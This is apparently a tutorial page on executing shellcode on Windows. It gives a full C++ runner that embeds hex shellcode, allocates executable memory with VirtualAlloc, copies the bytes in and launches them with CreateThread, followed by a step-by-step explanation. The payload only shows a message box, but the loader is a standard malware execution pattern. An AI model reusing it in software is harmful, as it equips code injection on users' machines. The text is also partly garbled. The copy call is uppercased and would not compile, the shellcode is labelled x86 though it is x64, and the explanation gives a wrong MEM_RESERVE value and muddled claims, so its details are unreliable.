 # CODE:
```cpp
#include <Windows.h>
#include <stdio.h>

int main(int argc, char** argv) {
    // Define MessageBox shellcode (x86)
    unsigned char shellcode[] =
        "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
        "\x51\x41\x50\x52\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b"
        "\x52\x18\x51\x48\x8b\x52\x20\x56\x4d\x31\xc9\x48\x0f\xb7"
        "\x4a\x4a\x48\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02"
        "\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51"
        "\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18"
        "\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
        "\x48\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x8b\x48"
        "\x18\x49\x01\xd0\x50\xe3\x56\x48\xff\xc9\x4d\x31\xc9\x41"
        "\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d"
        "\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39"
        "\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
        "\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48"
        "\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41"
        "\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
        "\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
        "\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
        "\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x13"
        "\x00\x00\x00\x49\x6d\x20\x61\x6e\x63\x68\x6f\x76\x79\x20"
        "\x42\x72\x6f\x75\x73\x6b\x69\x00\x5a\xe8\x09\x00\x00\x00"
        "\x49\x6e\x66\x65\x63\x74\x65\x64\x00\x41\x58\x48\x31\xc9"
        "\x41\xba\x45\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0"
        "\xb5\xa2\x56\xff\xd5";

    // Allocate memory using VirtualAlloc
    LPVOID allocated_mem = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);

    if (allocated_mem == NULL) {
        printf("Failed to allocate memory: %d\n", GetLastError());
        return 1;
    }

    printf("Memory Allocated at address: 0x%p\n", allocated_mem);
    // Write shellcode to the allocated memory
    RTLCOPYMEMORY(ALLOCATED_MEM, SHELLCODE, SIZEOF(SHELLCODE));

    printf("Shellcode is written to allocated memory!\n");
    // Create thread to execute the MessageBox shellcode
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)allocated_mem, NULL, 0, NULL);

    if (hThread == NULL) {
        printf("Failed to create thread: %d\n", GetLastError());
        return 1;
    }
    // Halt execution until created thread returns
    WaitForSingleObject(hThread, INFINITE);
    // Close handle to thread
    CloseHandle(hThread);
    // Free allocated memory
    VirtualFree(allocated_mem, 0, MEM_RELEASE);

    return 0;
}
```


# Explanation:

1. int main(int argc, char** argv): Starting point of the program.
2. unsigned char shellcode[] = [shellcode] -->
    - Used unsigned Char shellcode for some reasons:
        - Represents byte per byte (Raw byte)
        - Reject probles with the puntation.
        - Coherence with the memory.
        - Manipulate Binary.
   - This part of the code is the instructrion of ensambler in hexadecimal format.
   - The code is designed to user32.dll and meaning the shell code to execute.

3. LPVOID allocated_mem = VirtualAlloc(NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    - This is the allocated memory for our shellcodem, and we use "VirtualAlloc" for that.
    - This take some parameters the Null the OS colocate the firt parameter whaever they want
    - The second parameter is [sizeof(shellcode)] this is how much memory we want to allocate, since we wat to allocate  enough space for our shell code.
    - Third parameter is the  allocation type,  For commit reserved pages in one call use [MEM_COMMIT | MEM_RESERVE] toguether.
        - For commit we must reserve the space of memory. The pipe line is the repesentation of logic a b = A + B. ![Logic-Port](../IMG/A+B.jpg).
        If we can see the value of the MEM_RESERVE and MEM_COMMIT:
```c
#define MEM_COMMIT                      0x00001000
#define MEM_RESERVE                     0x0000200
```
The enums in C data type defined by user that map numerical vales. In the other way we can >> hex(0x1000 + 0x2000) '0x3000', Is the same we can put the [0x3000].

- The last parameter is the is the protection flag for this memory page [value 0x40].

IF the VirtualAlloc runs okey, it'll return pointer to a base addrs or the start addr of the allocate memory page.
Pointeres are variables that store addres which point to some datatype in memory.
A void pointer is just to undifined data type on the memory hence the term void.

4. Shellcode to allocate memory: [ RTLCOPYMEMORY(ALLOCATED_MEM, SHELLCODE, SIZEOF(SHELLCODE));]  the api has the sam funcionality as the memcpy funtionalita like:
[memcpy(allocated_mem. shellcode, sixeof(shellcode))].
    - allocated_mem -> Destination
    - shellcode -> the sorce to read from
    - sizeof -> which set to the size of our shellcode.

5. The final step is to execute the shellcode using the CreateThread api: this api takes in 6 parramerter:
    We are intersting in the third parameter which is entry point for the created threads. Using threads to execute each funtion in parallel and hence reduce the execution
    time to 1 sec.
    Now the thrid parameter is set to start address of our shellcode and type casted to [LPTHREAD_START_ROUTINE].
    When we type this type cast this memory [allocated_mem] with this type of cast [LPTHREAD_START_ROUTINE],  we telling the system this is the entry point i want to create
    thread to start execution form the start of the code that [Entry point 0x007F0000]. If the thread create susscesfully the api will returned the handle to the created thread.
    The hadle is yet another void pointer to the created threads.

6. WaitForSingleObject --> Now since we don't want to terminate program until our shellcode we will pause or hold the execution using that.
   This API takes to parameter the thread handle and the amount of time we want to wait for, until the program execute the threads returns or finishes execution, we set it IFINITE
   and after the thread returns and our shell code is exevuted the allocated memory using [VirtualFree].

